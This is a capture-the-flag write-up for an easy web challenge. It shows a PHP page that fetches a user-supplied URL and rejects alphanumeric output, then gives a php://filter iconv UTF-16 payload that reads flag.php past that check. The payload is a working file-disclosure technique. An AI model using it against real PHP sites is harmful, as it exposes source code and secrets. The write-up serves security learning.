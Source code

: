 # ASCWG WEB Writeup
## Challenge Name: Behind Hood

## Level: Easy - 300 points
- Flag is in flag.php
- you got a link for page with the following source code:

```PHP
<?php  
if(!empty($_GET['url'])){

    $data= file_get_contents($_GET['url']) ?? null;

    echo "preg_match:".preg_match ('#[a-zA-Z0-9_-]{2,}#', $data);

    if (preg_match ('#[a-zA-Z0-9_-]{2,}#', $data)) {

        die("Try Again!!!!");

    }

    echo $data;

} else {

    highlight_file(__FILE__);

}
```

- the trick here is that the `preg_match` function is working on the data coming out of the specified file.
- `preg_match ('#[a-zA-Z0-9_-]{2,}#', $data)` : searching for any lower / upper case letters and numbers.
- **conclusion**: your payload must convert the data inside the specified file to something that does not match letters or numbers.
- payload: ?url=`php://filter/convert.iconv.utf-8.utf-16/resource=flag.php` 

